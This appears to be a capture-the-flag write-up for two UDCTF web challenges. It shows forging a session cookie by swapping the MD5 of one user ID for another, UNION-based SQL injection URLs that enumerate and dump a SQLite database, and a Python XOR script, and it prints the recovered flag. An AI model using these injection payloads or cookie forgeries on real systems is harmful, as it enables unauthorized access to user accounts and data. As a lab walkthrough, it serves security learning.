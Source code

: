 ## WEB

### speedrun-1

![a](https://user-images.githubusercontent.com/47029515/112105169-182e1b80-8bd2-11eb-81ee-628ee0169b08.png)
  
When we visit the url we find this static page that just says hello User 2

![1a](https://user-images.githubusercontent.com/47029515/112104958-d309e980-8bd1-11eb-8f60-ed01b75c9822.png)

We notice there is a session cookie. PHPSESSID is generally produced using MD5.

![2a](https://user-images.githubusercontent.com/47029515/112104964-d56c4380-8bd1-11eb-92fb-3a9900b40177.png)

`c81e728d9d4c2f636f067f89cc14862c` is the MD5 hash of `2`. Let's try changing the value. `MD5(1) = c4ca4238a0b923820dcc509a6f75849b`

![3a](https://user-images.githubusercontent.com/47029515/112104971-d7ce9d80-8bd1-11eb-8507-c4bf2a7b9d14.png)

This gave us the flag:

![4a](https://user-images.githubusercontent.com/47029515/112104979-da30f780-8bd1-11eb-8794-354e5ca48716.png)


### speedrun-2

![b](https://user-images.githubusercontent.com/47029515/112105186-1bc1a280-8bd2-11eb-8319-5af0f18dc998.png)

Looking at the script it is obvious this is an SQLi.

![1](https://user-images.githubusercontent.com/47029515/112104873-b79ede80-8bd1-11eb-8e94-1fd4c7c1b2b8.png)

The course table does not seem to contain any values useful to us. Let's try searching for other tables:

`http://challenges.ctfd.io:30026/?credits=1+union+select+1,2,3,tbl_name+FROM+sqlite_master`

![2](https://user-images.githubusercontent.com/47029515/112104884-ba99cf00-8bd1-11eb-9d4d-f98b3b731ff9.png)

We notice there is table flag_xor_shares that looks interesting. Lets try viewing the structure of the table:

`http://challenges.ctfd.io:30026/?credits=1+union+select+1,2,3,sql+FROM+sqlite_master+where+name=%27flag_xor_shares%27`

![3](https://user-images.githubusercontent.com/47029515/112110086-6f36ef00-8bd8-11eb-925c-44b34eb8f0c1.png)

`http://challenges.ctfd.io:30026/?credits=1+union+select+id,hexdigest,3,4+from+flag_xor_shares`

![Screenshot from 2021-03-21 15-00-36](https://user-images.githubusercontent.com/47029515/112104934-cbe2db80-8bd1-11eb-9e82-c7f84ab5a241.png)

The contents of the table are secret shares. XORing them together should give us the flag. I wrote a quick script for this

```python
from pwn import xor

KEY1 = bytes.fromhex("7419ccad9d5949e66614cd9458cdac149c2ad981c9f3ec56d30d03e730631c23598394a6055c55ecb5bec49dd0043b9fde76")
KEY2 = bytes.fromhex("835db37484676a462e223024a365c91fcdfe53ff975852abfacb79e0f3aef8d5b897a36c6fbfde9ca8e63b3ee00d3a1830f1")
key3 = bytes.fromhex("9c5890b6230771372122e9352ed1f3a1f644c9d4e451b81cb2f6643a067669972dc6a06617eaf08e539ada9a92b713b09b0c")
key4 = bytes.fromhex("53e5553b467e4badfcee4d97262445b27cdad3ced69a7fc69e0a04196685a61052cdd2f8a7a9650a0d861707f51403ccebc3")
key5 = bytes.fromhex("6dbdf9003a3c710afbc92a669f248c6fbe15fc550753264477436a5093614a2efc76310bb7906c911c305a0a39f566c8fc35")
flag = xor(KEY1, KEY2, key3, key4, key5)

print(flag.decode())
```

```
UDCTF{h0n3stly_we_l1k3_crypt0_a_bit_m0re_th4n_w3b}
```

